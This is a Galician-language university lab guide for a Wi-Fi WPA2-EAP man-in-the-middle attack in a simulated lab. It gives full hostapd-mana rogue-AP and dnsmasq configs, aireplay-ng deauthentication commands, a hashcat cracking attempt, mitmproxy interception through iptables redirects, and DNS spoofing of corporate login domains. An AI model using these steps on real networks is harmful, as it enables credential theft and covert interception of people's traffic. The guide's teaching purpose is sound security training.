



Guia de Práctica 2.3: MITM Wi-Fi WPA2 (EAP) con hostapd-mana
Baseada na práctica 2-Taller-HE-Practica-WiFi-3.pdf
1. Contexto e Topoloxía
Nesta práctica realizaremos un ataque Adversary-in-the-Middle (AiTM) usando un AP Rogue configurado en modo Proxy RADIUS.
Diferenza clave respecto ao Evil Twin (Práctica 2)
- Evil Twin:
hostapd-wpeconeap_server=1→ captura hash MSCHAPv2 directamente - MITM Proxy:
hostapd-manaconeap_server=0→ reenvía ao RADIUS real, captura handshakes WPA2 (non crackeables) + tráfico post-autenticación
Obxectivo:
- Interceptar TODO o tráfico da vítima mentres esta mantén acceso funcional á rede
- Capturar credenciais mediante técnicas post-autenticación (SSL Stripping, DNS Spoofing)
1.1. Rol de Interfaces Wi-Fi
Imos empregar:
1. wlan0 para AP lexítimo WPA2 (EAP) (shell bash consola1 → namespace wifi_ap_wlan0)
2. wlan1 para o cliente que se conecta ao AP (shell bash consola2 → namespace wifi_cliente_wlan1)
3. wlan2 e wlan3 como interfaces do atacante que non coñece o contrasinal para conectarse ao AP:
- wlan2 MITM (AP Rogue+Proxy) (shell bash consola3 → MITM → namespace
mitm_wlan2) - wlan3 Monitor + Deseauth (shell bash consola4 → modo monitor + desautenticar cliente conectado wlan1 → namespace principal = SEN namespace)
1.2. Topoloxía de Rede

2. Preparación da Infraestrutura (Consola 1 → Rede Corporativa)
O laboratorio configura automaticamente:
- Bridge br-radius (192.168.50.1/24)
- FreeRADIUS escoitando en 192.168.50.1:1812
- AP lexítimo wlan0 (Canal 6) conectado ao bridge
- Rede corporativa: 192.168.50.0/24
- DHCP: 192.168.50.50 - 192.168.50.100
- Gateway: 192.168.50.1
- Cliente vulnerable wlan1
Saída esperada:
NAMESPACE INTERFACE IP ESTADO
---------------------------------------------------------------------------
wifi_cliente_wlan1 wlan1 192.168.50.XY/24 UP
mitm_wlan2 wlan2 - UP
mitm_wlan2 veth0@if12 - UP
wifi_ap_wlan0 br0 192.168.50.10/24 UP
wifi_ap_wlan0 wlan0 - UP
wifi_ap_wlan0 veth0@if10 - UP
---------------------------------------------------------------------------
Interfaces GLOBAIS / ATACANTE:
(global) wlan3 (host/monitor) LISTO
Verificar RADIUS operativo (Páx. 8 do PDF):
Verificar que o cliente lexítimo ten Internet:
sudo ip netns exec wifi_cliente_wlan1 bash
# Debería ter IP 192.168.50.XX asignada por DHCP
ip addr show wlan1
ping -c 2 192.168.50.1 # Gateway corporativo
ping -c 2 8.8.8.8 # Internet
curl http://www.example.com # Web
# Debe funcionar ✓
3. Configuración do MITM AP (Consola 3 → MITM)
Seguindo a Páxina 13-15 do PDF, configuramos hostapd-mana en modo proxy RADIUS.
3.1. Entrar no Namespace MITM
O wifilabctl xa preparou o namespace mitm_wlan2 con:
- Interface veth0 conectada ao bridge br-radius con IP 192.168.50.100/24
- Ruta por defecto cara a 192.168.50.1 (RADIUS)
# Entrar no namespace MITM
sudo ip netns exec mitm_wlan2 bash
# Verificar conectividade co RADIUS (Páx. 13 do PDF)
ping -c 2 192.168.50.1
# Debe responder. Se non, comproba: ip route show e ip addr show veth0
3.2. Preparar wlan2
3.3. Crear Configuración de hostapd-mana (Páx. 14 do PDF)
cat > /tmp/mana.conf <<EOF
interface=wlan2
driver=nl80211
ssid=EMPRESA-XYZ
channel=1
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP
rsn_pairwise=CCMP
ieee8021x=1
# CRÍTICO: Proxy RADIUS ao servidor corporativo (192.168.50.1)
auth_server_addr=192.168.50.1
auth_server_port=1812
auth_server_shared_secret=testing123
# Modo MANA: interceptación + proxy transparente
mana_wpe=1
mana_eapsuccess=1
mana_credout=/tmp/mana-credentials.log
# IMPORTANTE: eap_server=0 significa modo PROXY (non servidor EAP local)
eap_server=0
# Logging avanzado
logger_syslog=-1
logger_stdout=-1
logger_stdout_level=2
EOF
3.4. Executar hostapd-mana (Páx. 15)
Saída esperada:
Configuration file: /tmp/mana.conf
MANA: Captured credentials will be written to file '/tmp/mana-credentials.log'.
Using interface wlan2 with hwaddr aa:bb:cc:dd:ee:ff and ssid "EMPRESA-XYZ"
wlan2: RADIUS Authentication server 192.168.50.1:1812
wlan2: interface state UNINITIALIZED->ENABLED
wlan2: AP-ENABLED
Deixa hostapd-mana executándose e abre unha nova terminal para continuar.
3.5. Configurar Rede e DHCP (Nova Terminal → Consola 3b)
IMPORTANTE: Sen DHCP, o cliente tería que configurar a IP manualmente (obviamente sospeitoso). Con DHCP, o ataque é totalmente transparente.
# Entrar de novo no namespace MITM
sudo ip netns exec mitm_wlan2 bash
# Asignar IP a wlan2 (hostapd elimínaa ao arrancar)
ip addr add 10.0.0.1/24 dev wlan2
# Verificar
ip addr show wlan2
# Debe amosar: inet 10.0.0.1/24
# Configurar dnsmasq (servidor DHCP + DNS)
# CRÍTICO: dhcp-option=6 debe apuntar ao propio MITM (10.0.0.1) como DNS,
# non a 8.8.8.8. Se o cliente usa 8.8.8.8 directamente, dnsspoof non intercepta nada.
cat > /tmp/dnsmasq-mitm.conf <<EOF
interface=wlan2
dhcp-range=10.0.0.10,10.0.0.50,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
# Reenviar consultas non spoofadas ao DNS real
server=8.8.8.8
log-queries
log-dhcp
EOF
# Arrancar dnsmasq
dnsmasq -C /tmp/dnsmasq-mitm.conf -d &
Saída esperada:
dnsmasq: started, version 2.91 cachesize 150
dnsmasq: compile time options: ...
dnsmasq-dhcp: DHCP, IP range 10.0.0.10 -- 10.0.0.50, lease time 12h
dnsmasq: reading /etc/resolv.conf
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: using nameserver 1.1.1.1#53
...
Agora o MITM AP está totalmente funcional con:
- Autenticación EAP (proxy a RADIUS real)
- Servidor DHCP (asignación automática de IPs)
- Gateway e DNS configurados
- NAT preparado (do wifilabctl)
4. Desautenticación e Forzado (Consola 4 → Monitor)
Forzamos á vítima a migrar ao noso AP (Canal 1) que ten mellor sinal.
4.1. Configurar Monitor (Páx. 16 do PDF)
4.2. Escanear Ambos APs
Deberías ver:
- Canal 6: <BSSID_wlan0> EMPRESA-XYZ (AP lexítimo)
- Canal 1: <BSSID_wlan2> EMPRESA-XYZ (MITM)
Anota o BSSID do AP lexítimo (wlan0) e logo preme Ctrl+C
4.2.1 Escanear soamente o AP lexítimo
Anota a MAC do Cliente lexítimo (wlan1).
4.3. Configurar Canal e Desautenticar (Páx. 16-17)
# CRÍTICO: Configurar wlan3mon NO CANAL DO AP LEXÍTIMO (6)
Ctrl + C
sudo airmon-ng stop wlan3mon
sudo airmon-ng start wlan3 6
# Verificar
sudo iw dev wlan3mon info | grep channel
# Debe amosar: channel 6 (2437 MHz)
# Desautenticar cliente (wlan1) do AP lexítimo (wlan0)
# Substituír <BSSID_wlan0> polo BSSID real anotado antes
sudo aireplay-ng --deauth 50 -a <BSSID_wlan0> wlan3mon
Saída esperada:
09:30:15 Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
09:30:15 Sending 64 directed DeAuth...
09:30:16 Sending 64 directed DeAuth...
5. Verificación de Conexión ao MITM (Consola 2)
Comprobamos que o cliente migrou ao MITM.
# Entrar no namespace do cliente
# sudo ip netns exec wifi_cliente_wlan1 bash
# Verificar a que AP está conectado
iw dev wlan1 link
Se conectou ao MITM (ÉXITO):
Se conectou ao lexítimo (repetir desautenticación na Consola 4):
6. Captura de Handshakes WPA2 (Consola 3)
Unha vez que o cliente conecta ao MITM, hostapd-mana captura handshakes WPA2.
6.1. Visualizar Logs (Páx. 18 do PDF)
Volve á Consola 3 (onde está executándose hostapd-mana) e verás:
NOTA: Consideramos a MAC do cliente lexítimo: 7a:10:a4:c1:ae:3d
wlan2: STA 7a:10:a4:c1:ae:3d IEEE 802.11: authenticated
wlan2: STA 7a:10:a4:c1:ae:3d IEEE 802.11: associated (aid 1)
wlan2: CTRL-EVENT-EAP-STARTED 7a:10:a4:c1:ae:3d
wlan2: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA: Captured a WPA/2 handshake from: 7a:10:a4:c1:ae:3d
MANA WPA2 HASHCAT | WPA*02*4cb8c817f8bee9e5bcc02b78f4d2200c*...
wlan2: STA 7a:10:a4:c1:ae:3d WPA: pairwise key handshake completed (RSN)
wlan2: AP-STA-CONNECTED 7a:10:a4:c1:ae:3d
wlan2: STA 7a:10:a4:c1:ae:3d RADIUS: starting accounting session 99D2DACFAD14AB90
wlan2: STA 7a:10:a4:c1:ae:3d IEEE 802.1X: authenticated - EAP type: 25 (PEAP)
7. Tentativa de Crackear Handshake WPA2 (Consola 5 → Análise)
7.1. Extraer Hash WPA2 (Páx. 18-19 do PDF)
Nunha nova terminal (Consola 5):
# Extraer o primeiro handshake dos logs
grep "MANA WPA2 HASHCAT" /tmp/mana-ap.log | head -1 | awk -F'|' '{print $2}' | tr -d ' ' > /tmp/wpa2-handshake.hc22000
# Verificar hash extraído
cat /tmp/wpa2-handshake.hc22000
# Debe amosar: WPA*02*...
7.2. Tentar Crackear con hashcat (Modo 22000)
# Descomprimir rockyou
gunzip -c /usr/share/wordlists/rockyou.txt.gz > /tmp/rockyou.txt
# Crackear handshake WPA2-EAP
hashcat -m 22000 /tmp/wpa2-handshake.hc22000 /tmp/rockyou.txt
Resultado: Exhausted (NON atopa nada)
7.3. Conclusión Crítica (Páx. 19 do PDF)
IMPORTANTE: Limitación de WPA2-EAP
En WPA2-EAP, o handshake WPA2 capturado NON contén a contrasinal do usuario.
Diferenza técnica:
- WPA2-PSK: PMK = PBKDF2(contrasinal, SSID) → Crackeable con dicionario ✓
- WPA2-EAP: PMK = Derivada do MSK (Master Session Key) → NON crackeable con dicionario ✗
O MSK xérao o servidor RADIUS durante a autenticación EAP/PEAP e NON está relacionado directamente coa contrasinal do usuario "1234".
Para capturar credenciais en WPA2-EAP, necesitas:
1. Modo Evil Twin (eap_server=1) sen proxy → captura hash MSCHAPv2 (Práctica 2) ✓
2. Interceptar tráfico post-autenticación (SSL Stripping, DNS Spoofing) ✓ ← Continuamos aquí
8. Interceptación de Tráfico con mitmproxy (Consola 6 → namespace mitm_wlan2)
Dado que non podemos crackear o handshake WPA2-EAP, interceptamos o tráfico HTTP/HTTPS do cliente despois de autenticarse usando mitmproxy.
Nota:
sslstripestá obsoleto en Kali (incompatible con Python 3). Usamosmitmproxycomo substituto moderno.
8.1. Entrar no Namespace MITM
8.2. Instalar mitmproxy (se non está)
8.3. Configurar NAT
O tráfico do cliente (10.0.0.0/24) debe saír por veth0 → br-radius → Internet.
# Verificar namespace
ip netns identify
# Debe amosar: mitm_wlan2
# NAT para dar Internet ao cliente
iptables -t nat -A POSTROUTING -s 10.0.0.0/24 -o veth0 -j MASQUERADE
# Verificar
iptables -t nat -L POSTROUTING -n -v
8.4. Configurar DNS
# Comprobar configuración servidores DNS
cat /etc/resolv.conf
nameserver 8.8.8.8
nameserver 1.1.1.1
#No caso que non aparezan eses servidores DNS, executar:
echo "nameserver 8.8.8.8" > /etc/resolv.conf
echo "nameserver 1.1.1.1" >> /etc/resolv.conf
8.5. Verificar Conectividade
Se NON funciona, volve á Consola 1 e verifica o NAT no bridge:
8.6. Redirixir Portos HTTP e HTTPS a mitmproxy
# Redirixir HTTP (80) e HTTPS (443) ao proxy (8080)
iptables -t nat -A PREROUTING -i wlan2 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan2 -p tcp --dport 443 -j REDIRECT --to-port 8080
# Verificar
iptables -t nat -L PREROUTING -n -v | grep 8080
8.7. Executar mitmproxy
# Arrancar mitmproxy en modo transparente, gardando flows en /tmp
mitmproxy --mode transparent --showhost -w /tmp/mitm-capture.flow
Saída esperada:

Deixa isto executándose na Consola 6.
Nota técnica:
-wgarda os flows capturados no ficheiro/tmp/mitm-capture.flow. Este ficheiro é accesible desde calquera namespace porqueip netnssó illa a rede, non o sistema de ficheiros.
9. PUNTO DE DECISIÓN: Continuar ao ataque MITM (Consolas 3, 4 e 6)
Agora continuamos a:
- Consola 3: Configurar hostapd-mana (AP Rogue no Canal 1)
- Consola 4: Desautenticar ao cliente para forzar migración ao MITM
- Consola 6: Configurar mitmproxy para interceptar tráfico
9.1. DESPOIS de Desautenticación: Renovar IP do MITM
Esta sección só se aplica DESPOIS de:
- Executar hostapd-mana na Consola 3 (AP Rogue no Canal 1)
- Executar aireplay-ng na Consola 4 (desautenticación)
- Confirmar que o cliente migrou ao MITM
9.1.1. Verificar Migración ao MITM
Se conectou ao MITM (ÉXITO):
Se aínda está no AP lexítimo (repetir desautenticación na Consola 4):
9.1.2. Renovar IP para a Rede do MITM
Unha vez confirmada a migración ao MITM, renovamos a IP:
# Liberar a IP antiga do AP lexítimo (192.168.50.XX)
dhclient -r wlan1
# Solicitar nova IP do MITM (rede 10.0.0.0/24)
dhclient -v wlan1
# Verificar nova IP asignada polo dnsmasq do MITM
ip addr show wlan1
# Debe amosar: inet 10.0.0.XX/24 ✓
# Verificar nova ruta por defecto
ip route show
# Debe amosar: default via 10.0.0.1 dev wlan1 ✓
9.2 Verificar Conectividade co MITM
# Ping ao gateway MITM
ping -c 2 10.0.0.1
# Debe funcionar ✓
# Ping a Internet (a través do NAT do MITM)
ping -c 2 8.8.8.8
# Debe funcionar ✓
9.3 Xerar Tráfico HTTP (AGORA SI Interceptado)
Agora SI, o tráfico será interceptado por mitmproxy (se configuraches a Consola 6):
# Simular login HTTP con credenciais
curl -X POST http://testphp.vulnweb.com/login.php -d "username=test&password=test123"
# Tentar HTTPS (mitmproxy converterao a HTTP se é posible)
curl http://www.example.com
Agora na Consola 6, deberían aparecer as credenciais interceptadas:

10. Conclusión e Técnicas de Ataque Post-Autenticación
O ataque MITM con hostapd-mana en modo proxy RADIUS ten vantaxes estratéxicas respecto ao Evil Twin.
10.1. Vantaxes do MITM Proxy vs Evil Twin
| Característica | Evil Twin (P2) | MITM Proxy (P3) |
|---|---|---|
| Captura MSCHAPv2 | ✓ Si (hash crackeable) | ✗ Non (só handshakes WPA2) |
| Transparencia | ✗ Cliente perde conectividade | ✓ Cliente mantén acceso funcional |
| Persistencia | ✗ Ataque puntual | ✓ Interceptación continua |
| Captura de Sesións | ✗ Limitado | ✓ Cookies, tokens, credenciais HTTP |
10.2. Limitacións Técnicas
1. Handshakes WPA2-EAP NON crackeables
Como vimos na Consola 5 (hashcat):
- En WPA2-PSK: PMK = PBKDF2(contrasinal, SSID) → Crackeable ✓
- En WPA2-EAP: PMK = Derivada do MSK (Master Session Key) → NON crackeable ✗
O MSK xérao o servidor RADIUS durante a autenticación EAP/PEAP e NON está relacionado coa contrasinal do usuario "1234".
2. Necesidade de técnicas post-autenticación
Para capturar credenciais en WPA2-EAP MITM, debemos usar:
1. Interceptación de tráfico HTTP (páx. 20-21 do PDF)
2. DNS Spoofing (redirixir dominios a servidores falsos)
3. ARP Spoofing (se hai máis clientes na rede)
4. SSL Stripping (NON nativo en mitmproxy - require configuración avanzada)
10.3. Técnicas de Captura de Credenciais
A) Interceptación HTTP con mitmproxy (Consola 6)
Limitación de mitmproxy en modo transparente:
- mitmproxy --mode transparent NON fai SSL Stripping automático
- Intercepta HTTPS mediante un certificado MITM que o cliente pode rexeitar
- Só captura credenciais en sitios HTTP puros ou con certificados aceptados
Alternativas para SSL Stripping real:
1. sslstrip2 (requiere configuración manual con iptables)
2. bettercap (con módulo http.proxy + dns.spoof)
3. ettercap con plugins personalizados
B) DNS Spoofing (Consola 3b - namespace mitm_wlan2)
Redirixir dominios lexítimos a páxinas de phishing. O método correcto neste escenario é dnsmasq address=, xa que o cliente usa 10.0.0.1 como DNS (configurado por DHCP) e as consultas chegan directamente a dnsmasq.
⚠️ Por que NON usar
dnsspoofaquí:dnsspooffunciona por sniffing de paquetes e require que o tráfico DNS pase pola interface que monitoriza. Se o cliente está configurado para usar10.0.0.1como DNS, as consultas chegan como tráfico unicast directo adnsmasq—dnsspoofnon as captura. Ademais,dnsspoofnon actúa como servidor DNS real, polo que as consultas non spoofadas quedan sen resposta.
# Entrar ao namespace MITM (se non estás xa)
sudo ip netns exec mitm_wlan2 bash
# Engadir regras de spoofing a dnsmasq en tempo real (sen reiniciar)
# address=/dominio/IP redirixe ese dominio á IP do MITM
echo "address=/login.empresa.com/10.0.0.1" >> /tmp/dnsmasq-mitm.conf
echo "address=/mail.empresa.com/10.0.0.1" >> /tmp/dnsmasq-mitm.conf
# Recargar dnsmasq (SIGHUP aplica os cambios sen cortar o DHCP)
kill -HUP $(pgrep dnsmasq)
Verificar desde o cliente (Consola 2):
# Entrar no namespace do cliente
sudo ip netns exec wifi_cliente_wlan1 bash
# Verificar que o DNS asignado é o MITM
cat /etc/resolv.conf
# Debe amosar: nameserver 10.0.0.1
# Verificar o spoofing
nslookup login.empresa.com 10.0.0.1
# Debe resolver a: 10.0.0.1 (IP do MITM) ✓
nslookup google.com 10.0.0.1
# Debe resolver normalmente (reenvío a 8.8.8.8) ✓
C) ARP Spoofing
O punto clave é que o atacante xa está “no medio” sen ARP spoofing, porque:
- O atacante levanta un AP Rogue (wlan2) e dá servizo de DHCP ao cliente.
- O cliente recibe como gateway o propio atacante (10.0.0.1).
- Polo tanto, todo o tráfico do cliente pasa polo atacante “de forma natural” (MITM por topoloxía), e logo sae a Internet vía NAT.
10.4. Limitacións de HSTS (HTTP Strict Transport Security)
Sitios con HSTS son inmunes a SSL Stripping con mitmproxy:
- Exemplo: Google, Facebook, Twitter, GitHub
- O navegador obriga a usar HTTPS incluso se o MITM tenta redirixir a HTTP
- Solución: Phishing con dominios similares (typosquatting)
HSTS e Typosquatting: por que importan (e como che afectan no lab)
HSTS (HTTP Strict Transport Security) é unha política que un sitio web envía ao navegador para forzar sempre HTTPS durante un tempo. Se un dominio ten HSTS activo, o navegador non aceptará o “downgrade” a HTTP, polo que técnicas tipo SSL Stripping deixan de funcionar (no MITM do taller verás que só é viable cando o sitio permite fluxo HTTP→HTTPS e non ten HSTS).
Typosquatting é unha técnica de suplantación por erro tipográfico: o atacante rexistra dominios moi parecidos a un lexítimo (p.ex. cambiando unha letra, engadindo un guión, usando outro TLD) para capturar credenciais ou distribuír malware. No contexto dun MITM, adoita combinarse con DNS spoofing para redirixir á vítima a ese dominio “case igual”; por iso, unha defensa clave é validación estrita de certificados/CA e boas prácticas de navegación (marcadores, contrasinais con autocompletado só en dominios exactos, e políticas corporativas).
10.5. Obxectivo Acadado
✓ Interceptación completa do tráfico da vítima
✓ Captura de credenciais mediante:
- Tráfico HTTP en texto claro
- DNS Spoofing a sitios de phishing
✓ Acceso invisible á rede corporativa
✓ Capacidade de movemento lateral e ataques internos
⚠️ NON capturamos hash MSCHAPv2 (para iso, usar Evil Twin - Práctica 2)
⚠️ NON crackeamos handshakes WPA2-EAP (tecnicamente imposible)
11. Limpeza
Ao rematar, apaga o escenario.